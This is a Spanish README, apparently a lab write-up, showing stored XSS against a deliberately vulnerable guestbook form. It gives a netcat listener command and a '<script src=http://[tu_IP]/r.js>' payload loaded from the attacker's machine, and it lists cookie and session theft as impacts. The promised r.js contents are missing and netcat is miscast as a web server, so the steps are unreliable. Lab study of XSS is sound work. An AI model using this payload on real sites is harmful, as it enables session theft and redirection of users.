 # Explotación de Redirección en Guestbook (Nivel Bajo)

Este README describe una explotación de seguridad de nivel bajo en un formulario de "Guestbook" vulnerable. La vulnerabilidad permite la inyección de código JavaScript malicioso a través del campo "Message".

## Pre-requisitos

* **Servidor Web Temporal:** Necesitas tener un servidor web simple en ejecución para servir el archivo JavaScript de redirección. Puedes iniciarlo con netcap:
    ```bash
    nc -lvnp 44
    ```

* **Archivo JavaScript (`r.js`):** Crea un archivo llamado `r.js` en el mismo directorio donde iniciarás el servidor web. Este archivo contendrá el código JavaScript con el payload:
    
## Pasos de Explotación

1.  **Acceder al Formulario:** Abre la página web que contiene el formulario del "Guestbook" con los campos "Name" y "Message".

2.  **Introducir Nombre:** En el campo "Name", introduce cualquier valor (máximo 10 caracteres, por ejemplo, "prueba").

3.  **Introducir Payload en el Mensaje:** En el campo "Message", introduce la etiqueta `<script>` para incluir el script desde tu servidor web temporal. Reemplaza `[tu_IP]` con la dirección IP de tu máquina donde está corriendo el servidor web. Si el servidor web está en la misma máquina, puedes usar `127.0.0.1` o `localhost`.

    ```html
    <script src=http://[tu_IP]/r.js></script>
    ```

    **Importante:** Verifica que la longitud del payload sea menor de 50 caracteres.

4.  **Enviar el Formulario:** Haz clic en el botón "Sign Guestbook".

5.  **Verificar Inclusión del Script:**
    * Haz clic derecho en la nueva entrada del guestbook que contiene tu "Message".
    * Selecciona "Inspeccionar elemento" (o similar).
    * Busca en el código fuente para confirmar que la etiqueta `<script>` se ha insertado correctamente.

![imagen vulnerabilidad 1](../../assets/XSSStoredLow01.png)

## Impacto

Esta explotación demuestra una vulnerabilidad Cross-Site Scripting (XSS) de bajo nivel. Un atacante podría inyectar código JavaScript malicioso para:

* Redirigir usuarios a sitios web maliciosos.
* Robar información sensible (cookies, tokens de sesión, etc.).
* Realizar acciones en nombre del usuario autenticado.
* Mostrar contenido falso o engañoso.